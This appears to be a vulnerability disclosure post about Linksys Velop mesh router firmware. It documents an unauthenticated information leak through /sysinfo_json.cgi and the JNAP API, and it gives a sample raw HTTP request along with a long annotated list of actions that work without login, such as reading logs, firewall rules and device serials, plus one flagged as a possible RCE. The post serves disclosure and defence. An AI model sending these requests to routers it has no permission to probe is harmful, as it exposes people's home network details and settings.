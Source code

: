 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [Linksys Velop information leak]
---
```


### Affected Software
The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
Since the vendor marked this issue as wont fix, so this is only a risk.

There are many information leak problems, one of them is through /sysinfo_json.cgi, requesting this url will leak sensitive information and may lead to authentication bypass.

The Linksys APP will use JNAP to communicate with the router, and  there are many kinds of X-JNAP-Action can be made to request the router, we found the router can handle many actions without authentication. A sample request can be :
~~~http
POST /JNAP/ HTTP/1.1
Host: 192.168.1.1
Accept: application/json; charset=UTF-8
Expires: Fri, 10 Oct 2015 14:19:41 GMT
Accept-Encoding: gzip, deflate
Accept-Language: zh-Hans-CN;q=1, en-CN;q=0.9
Cache-Control: no-cache
Content-Type: application/json; charset=UTF-8
Content-Length: 2
User-Agent: Linksys/2.5.2 (iPhone; iOS 11.2.6; Scale/3.00)
Connection: close
X-JNAP-Action: http://linksys.com/jnap/devicelist/GetDevices

{}
~~~

#### PoC

Beyond action of http://linksys.com/jnap/devicelist/GetDevices , the following actions can be also made without authentication, some of them need parameters while the others not:

- nodes/smartconnect/GetSlaveSetupStatus (TBD see if there is useful information)
- nodes/smartconnect/SmartConnectConfigure (possible RCE)
- firmwareupdate/GetFirmwareUpdateStatus (nothing useful)
- dynamicportforwarding/GetDynamicIPv6ConnectionRules(get ipv6 rules)
- dynamicportforwarding/GetDynamicPortRangeForwardingRules (get forwarding rules)
- dynamicportforwarding/GetDynamicSinglePortForwardingRules (get forwarding rules)
- routerstatus/GetHeartbeatInterval  (nothing useful)
- nodes/setup/GetSerialNumber (TBD serial number may be used to calulate somethin, not sure)
- nodes/setup/GetWANDetectionStatus (some WAN detection status, not too much useful)
- nodes/setup/IsAdminPasswordSetByUser (get to know if users have set ADMIN password)
- nodes/setup/SetAdminPassword(2018.04.04 not useful,reset code cannot be bruteforced)
- nodes/setup/VerifyRouterResetCode(2018.04.04 cannot be bruteforced,10 times limit)
- devicelist/GetDevices(lot of information, such as deviceID,serialNumber,firmwareVersion,isAuthority and so on)
- devicelist/GetDevices3(lot of information, such as deviceID,serialNumber,firmwareVersion,isAuthority and so on)
- devicelist/GetLocalDevice (get deviceID)
- nodes/smartmode/GetDeviceMode(get to know what type of current node it is, like master of slave)
- qos/GetLANQoSSettings (get QoS setting)
- qos/GetQoSSettings (get QoS setting)
- qos/GetQoSSettings2 (get QoS setting)
- qos/GetWLANQoSSettings(get QoS setting)
- routermanagement/GetManagementSettings (get management settings)
- routermanagement/GetManagementSettings2 (get management settings, such as canManageUsingHTTP,canManageUsingHTTPS, isManageWirelesslySupported,canManageWirelessly,canManageRemotely)
- routermanagement/GetRemoteManagementStatus(remote management status)
- httpproxy/RemoveHttpProxyRule(remove a HTTP proxy rule by providing a ruleUUID)
- locale/GetLocalTime (get time)
- locale/GetTimeSettings(get time settings, like timezone,autoAdjustForDST and others)
- ui/GetCloudServerStatus (get to know if current node is accessable to the cloud)
- ui/GetRemoteSetting (get to know if it is enabled)
- ui/SetRemoteSetting(set if it is able to get remote setting)
- wirelessap/GetAdvancedRadioInfo (wireless info, not much useful info)
- wirelessap/GetWPSServerSettings(if the WPS is enabled)
- wirelessap/IsWPSServerAvailable(TBD if WPS server is enabled, not clear what is it)
- routerleds/GetRouterLEDSettings(wireless LED setting)
- ownednetwork/GetOwnedNetworkID(TBD get ownedNetworkID, may be useful)
- core/GetAdminPasswordHint(not too much useful)
- core/GetAdminPasswordRestrictions(not too much useful)
- core/GetDataUploadUserConsent (false by default)
- core/GetDeviceInfo(router info, such as serialNumber,firmwareVersion,hardwareVersion,services)
- core/GetUnsecuredWiFiWarning(not too much useful)
- core/IsAdminPasswordDefault(get to know if users have set ADMIN password)
- core/IsRecoveryCodeProvided(nothing special)
- core/IsServiceSupported(check whether a service is available)
- core/SetUnsecuredWiFiWarning(not too much useful)
- parentalcontrol/GetParentalControlSettings(get to know parent control setting)
- diagnostics/GetDiagnosticsSettings(not too much useful)
- networkconnections/GetNetworkConnections(not too much useful)
- router/GetWANStatus2(not too much useful)
- guestnetwork/GetGuestNetworkClients(get guest network clients)
- guestnetwork/GetGuestNetworkSettings2(guest network settings)
- routerlog/GetDHCPLogEntries(get DHCP log)
- routerlog/GetIncomingLogEntries(get incoming log)
- routerlog/GetOutgoingLogEntries(get outgoin log)
- routerlog/GetSecurityLogEntries(get security log)
- routerlog/GetLogSettings(log setting)
- wirelessscheduler/GetWirelessSchedulerSettings(wireless scheduler settings)
- guestnetwork/Authenticate(TBD interesting, dont know if we can brute force it or there will be vulnerability)
- dynamicsession/GetDynamicSessionInfo(dynamic session info)
- dynamicsession/GetDynamicSessions(dynamic session info)
- ddns/GetDDNSStatus(ddns status)
- ddns/GetDDNSStatus2(ddns status)
- ddns/GetSupportedDDNSProviders(not too much useful)
- router/GetDHCPClientLeases(not too much useful)
- router/GetEthernetPortConnections(not too much useful)
- router/GetExpressForwardingSettings(not too much useful)
- router/GetIPv6Settings(ipv6 settings)
- router/GetIPv6Settings2(ipv6 settings)
- router/GetLANSettings(lan info)
- router/GetMACAddressCloneSettings(MAC clone settings)
- router/GetRoutingSettings(route settings)
- router/GetStaticRoutingTable(routing table)
- router/GetWANStatus(WAN status)
- router/GetWANStatus3(WAN status)
- routerupnp/GetUPnPSettings(UPnP settings)
- firewall/GetALGSettings(ALG settings, but what is ALG?)
- firewall/GetDMZSettings(DMZ Settings)
- firewall/GetFirewallSettings(Firewall settings)
- firewall/GetIPv6FirewallRules(Firewall settings)
- firewall/GetPortRangeForwardingRules(port forward)
- firewall/GetPortRangeTriggeringRules(port rules)
- firewall/GetSinglePortForwardingRules(port formward)



### Timeline

2018-03-04: Discovered
2019-02-05: Reported and the vendor marked this issue wont fix
